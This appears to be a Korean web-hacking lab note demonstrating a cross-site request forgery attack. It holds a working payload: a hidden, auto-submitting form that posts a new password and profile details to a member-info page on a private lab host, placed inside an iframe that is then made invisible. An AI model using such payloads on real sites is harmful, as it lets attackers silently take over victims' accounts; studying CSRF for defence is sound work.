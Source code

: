     ![Untitled](../../assets/img/Untitled-1666954381656-70.png)

    ```
    iframe test
    <iframe id="i" width="100" height="100"></iframe>
    <script>i.src="http://200.200.200.254/sess-bin/login_session.cgi"</script>
    ```

    ![화면 캡처 2022-10-28 194338](../../assets/img/화면 캡처 2022-10-28 194338.png)

  - 위 코드를 참고하여 수정

    ```
    <iframe name="i" width="100" height="100"></iframe>
    <form id="hack" target="i" name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="444444" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="444444" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    </form>
    <script>document.getElementById("hack").submit()</script>
    ```

    ![화면 캡처 2022-10-28 194623](../../assets/img/화면 캡처 2022-10-28 194623.png)

  - 프레임을 0으로 하여 완전히 안보이게 수정

    ![화면 캡처 2022-10-28 194922](../../assets/img/화면 캡처 2022-10-28 194922.png)
